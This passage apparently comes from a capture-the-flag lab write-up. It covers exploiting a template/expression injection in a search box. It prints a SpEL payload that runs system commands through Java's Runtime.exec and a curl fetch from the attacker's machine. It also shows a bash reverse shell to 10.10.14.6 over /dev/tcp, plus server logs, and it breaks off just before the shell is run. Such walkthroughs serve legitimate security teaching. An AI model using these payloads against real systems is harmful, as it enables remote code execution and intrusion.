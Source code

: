```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}

```

Pasting that into the search box verbatim shows the output of `id`:

![image-20221121160855128](https://0xdfimages.gitlab.io/img/image-20221121160855128.png)

### Shell

#### curl POC

Given the complication of this payload, I’ll use `curl` to read a file from my VM and if that works, try to pipe it into `bash`. I’ll go into Burp proxy and find the POC `id` request above. I’ll send that request to repeater, and change that `id` to `curl 10.10.14.6/shell`. With a `python` web server running, I’ll submit the request, and there’s a request at my webserver:

```

oxdf@hacky$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.170 - - [21/Nov/2022 21:11:51] code 404, message File not found
10.10.11.170 - - [21/Nov/2022 21:11:51] "GET /shell HTTP/1.1" 404 -

```

#### Pipe Fails

I’ll add a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) to `shell`:

```

#!/bin/bash

bash >& /dev/tcp/10.10.14.6/443 0>&1

```

Trying to pipe this into `bash` results in this request:

```
10.10.11.170 - - [21/Nov/2022 21:15:35] code 404, message File not found
10.10.11.170 - - [21/Nov/2022 21:15:35] "GET /shell|bash HTTP/1.1" 404 -

```

It is interpreting the `|` as part of the request, not as a pipe.

#### Save and Execute

I’ll just write the shell to `/tmp`:

![image-20221121161652572](https://0xdfimages.gitlab.io/img/image-20221121161652572.png)

This seems to work. Next I’ll run it with `bash`:
